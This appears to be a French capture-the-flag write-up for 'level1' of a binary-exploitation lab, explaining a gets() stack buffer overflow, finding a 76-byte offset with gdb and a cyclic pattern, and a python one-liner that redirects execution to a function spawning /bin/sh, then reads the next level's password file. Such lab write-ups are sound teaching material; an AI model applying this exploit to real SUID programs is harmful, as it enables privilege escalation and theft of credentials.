 # level1

On prend le reflex de decompiler le binaire (cf source)
On voit une fonction `run()` qui a un return `system("/bin/sh")` qu'il va falloir exploiter

Donc ici il faut qu'on trouve un moyen de faire executer `run()` au programme car ce n'est actuellement pas le cas

Ici notre principal allie est la fonction `gets()` qui ne verifie pas l'entree donnee
Elle nous permet d'ecrire sur le stack pour faire un buffer overflow
Imaginons si un `buffer[64]` est envoye sur la stack, si j'envoie 70 char dans gets je vais pouvoir modifier des zones memoires

Qu'est ce que je peux modifier ?

La stack est une pile donc c'est empile et chaque fonction a sa stack frame
Ok et ca nous avance a quoi de savoir ca ?

Et bien a chaque call d'une fonction il se passe en realite deux operations :
```
    push EIP
    jmp <adresse de la fonction>
```

Avant de jump a l'adresse de la fonction il va push sur la stack EIP
EIP est l'instruction pointer
C'est un moyen indispensable pour un programme de garder son flux d'execution,
car a la fin de la stack frame de la fonction call il va bien falloir revenir la ou elle a ete appelee

En sachant cela, on peut regarder sur `gdb`:

Commencons par mettre un break point et run notre programme
```
(gdb) i f
Stack level 0, frame at 0xbffff740:
eip = 0x8048481 in main; saved eip 0xb7e454d3
```

Avec seulement ces informations on sait que le saved eip est en fait le retour de la fonction main

On peut afficher l'instruction a <adresse> avec x/i
```
(gdb) x/i 0xb7e454d3
   0xb7e454d3 <__libc_start_main+243>:  mov    %eax,(%esp)
```

Donc le retour de la fonction main ira a `<__libc_start_main+243>`

Ne sera-t-il pas la notre moyen d'envoyer le retour de la fonction main a la fonction run() ?
Essayons de modifier cela:

Deja pour trouver l'adresse de run on peut :
```
(gdb) p run
    1 = {<text variable, no debug info>} 0x8048444 <run>
```

Nous avons donc maintenant tout les elements pour parvenir a executer run et notre appel `system("/bin/sh")`

Mais quel registre modifier et comment le faire ?

On peut utiliser un pattern d'overflow : 

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Cela nous permet d'avoir un offset entre le buffer et l'adresse a modifier (ebp+4)
Envoyons ce pattern a get

```
x/4x %ebp
0xbffff728:     0x41346341      0x63413563      0x37634136      0x41386341
```

On voit que les caracteres ascii de notre chaine a ecraser la memoire
On peut envoyer ebp+4 (0x63413563) sur notre site 

`https://wiremask.eu/tools/buffer-overflow-pattern-generator/?`

Qui va calculer l'offset entre le debut du pattern et la valeur contenu dans `ebp+4`
Cela nous donne 76 d'offset

Nous savons maintenant qu'il faut ecraser 76 bytes memoire avant d'atteindre `ebp+4`
Plus qu'a faire une petite commande python et envoyer 

`(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1`

Via gdb on pouvait `set ebp+4` directement

`(gdb) set {int}(ebp+4)=0x8048444`

Mais gdb a des protections et cela nous permet pas d'executer le programme avec le bit SUID
Donc oblige de passer en ligne de commande ou via un script extern a gdb

`cat /home/user/level2/.pass`